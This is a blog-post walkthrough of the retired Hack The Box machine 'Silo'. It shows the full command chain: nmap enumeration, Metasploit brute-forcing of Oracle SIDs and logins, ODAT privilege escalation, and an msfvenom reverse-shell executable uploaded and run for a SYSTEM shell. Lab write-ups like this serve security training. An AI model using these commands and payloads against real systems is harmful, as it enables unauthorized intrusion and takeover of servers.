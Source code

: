 ```yaml
---
layout: post
title: "HTB-Silo"
categories: HTB-Walkthrough
---
```


![silo](/assets/img/silo/silo-1.png)

Silo is another HTB machine from the 'retired' list that is OSCP-like.

Setting things up to get Metasploit to do its thing was honestly, the most testing thing about the experience.
Now that its all set up, I'm happy, but its not something I'd like to repeat too often!
I've decided to be of no help whatsoever in this part of the process, so that you can truly appreciate my pain!
Know that even providing you with [this link](https://blog.zsec.uk/msforacle/), I mock your anguish!

;)



<h4>Nmap</h4>

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.82 |tee -a silo.txt`

```

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

```


The initial enumeration of the webserver (port80) yeilded nothing of importance, so I moved on to investigation of Oracle.



<h4>msfconsole</h4>


`use auxiliary/scanner/oracle/tnspoison_checker`

`use auxiliary/admin/oracle/sid_brute`

```

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
[*] 10.10.10.82:1521 - Done with brute force...
[*] Auxiliary module execution completed
msf5 auxiliary(admin/oracle/sid_brute) > 

```

`use auxiliary/admin/oracle/oracle_login`

This is where I ran into trouble with ruby, I got an 'oci8' error, and so needed to install a bunch of stuff!

`https://github.com/kubo/ruby-oci8`

download latest version and install that !!!!

Next I found I had to install Odat, I just got the 'quick' version!
....well when I say quick.....!!!!


<hr width="250" size="6">


Eventually I get things set up, and can resume...

![msf-brutelogin](/assets/img/silo/silo-msf-brutelogin.png)


Success!!!
we've got the default login creds for the training account - scott/tiger


<hr width="250" size="6">


<h3>ODAT-Exploit</h3>

Now we need to use ODAT to upload and execute an exploit, first we can use it to get admin privileges.



![odat-privesc](/assets/img/silo/silo-odat-privesc.png)




With DBA privs we can upload a file...

After much experimentation uploading different files to different places, and then trying to escalate in different shells, it hit me...
Why not just try upload to Administrator's folder and execute from there to get instant Administrator privileges?

Exited by this brainwave, I gave it a go.

<hr width="250" size="6">

We need to create a payload to upload, an evil1.exe

I used msfvenom to generate one, and embedded it into plink for maximum snek!

```

msfvenom -f exe -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4443 -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o evil1.exe

```



Then upload it via ODAT

```

./odat-libc2.12-x86_64 utlfile -s 10.10.10.82 -d XE -U scott -P tiger --test-module --putFile /Users/Administrator/Desktop/ evil1.exe /root/HTB/retired/silo/evil1.exe

```

get nc listener ready on 4443; and execute the file, again via ODAT

```

./odat-libc2.12-x86_64 externaltable -s 10.10.10.82 -d XE -U scott -P tiger --exec /Users/Administrator/Desktop/ evil1.exe

```

Instant System !!!


```

c:\Users>whoami
whoami
nt authority\system

c:\Users>type phineas\desktop\user.txt
type phineas\desktop\user.txt
92xxxxxxxxxxxxxxxxxxxxxxxxxxxx17
c:\Users>type administrator\desktop\root.txt
type administrator\desktop\root.txt
cdxxxxxxxxxxxxxxxxxxxxxxxxxxxxf6
c:\Users>

```

<hr width="250" size="6">


I spent a lot of time on this box, not just in the setting up of odat, but tinkering with the commands, and selecting the best
methods to pwn the system. This was just the most straight-forward!



:)
